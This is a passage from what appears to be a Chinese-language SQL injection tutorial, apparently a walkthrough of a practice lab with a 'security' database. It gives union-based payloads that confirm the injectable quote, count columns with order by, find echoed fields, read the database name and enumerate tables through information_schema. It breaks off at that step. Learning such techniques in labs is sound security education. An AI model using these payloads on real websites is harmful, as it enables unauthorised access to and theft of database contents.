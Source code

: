 ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732018250616-23f742da-482b-4d58-b5c6-bdaad3fa6f26.png)

<font style="color:rgb(77, 77, 77);">继续判断，输入 ?id=1' and 1=1 --+ 页面正常显示</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732018317369-f1d539b5-99c0-4023-bd6e-d0b437d44f50.png)

<font style="color:rgb(77, 77, 77);">?id=1' and 1=2 --+ 页面不正常显示，说明程序对我们的输入做出了正确的判断，所以注入点就是单引号</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732018384015-2f177204-30f3-4de4-8164-227f1f2e4e27.png)

<font style="color:rgb(77, 77, 77);">页面会根据输入的数据变化而变化，当存在注入点时，优先考虑使用联合注入手法。</font>

#### <font style="color:rgb(77, 77, 77);">2. 判断当前表的字段个数</font>
<font style="color:rgb(77, 77, 77);">输入order by 3，页面无异常反应</font>

```php
?id=1' order by 3 --+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732018542008-269304b4-d035-4ae2-b156-11ad89a4101e.png)

<font style="color:rgb(77, 77, 77);">将3修改为4，此时显示未知的列，说明此时当前表中只有3列</font>

```php
?id=1' order by 4 --+ 
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732018700225-c0e0fe4d-c1ad-4308-a565-c9709381738b.png)

#### 3.判断显示位
<font style="color:rgb(77, 77, 77);">接下来测试我们的输入会在屏幕哪个地方进行回显。上面我们判断出来了表中有3列，所以union select的时候就写xx,xx,xx三个数据</font>

<font style="color:rgb(77, 77, 77);">需让union select前面的参数查不出来而回显后面的语句，所以id=-1'</font>

```php
?id=-1' union select 1,2,3 --+ 
```

<font style="color:rgb(77, 77, 77);">如下，在name和password值中回显了我们的输入，这时我们就可以在回显2或3的放置放入测试语句。</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732018891035-d6681de4-f0d2-4091-9c2f-d4270bc2c949.png)

#### 4. 爆当前数据库名字
这里就需要结合上面的Mysql数据库的前置知识

```php
?id=-1' union select 1,2,database() --+
```

<font style="color:rgb(77, 77, 77);">获取当前数据库名为“security”</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732019022965-1325b29d-ed8d-4643-9980-83cdc190cc5a.png)

#### 5.爆出当前数据库中的表
```php
#直接套用语句
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
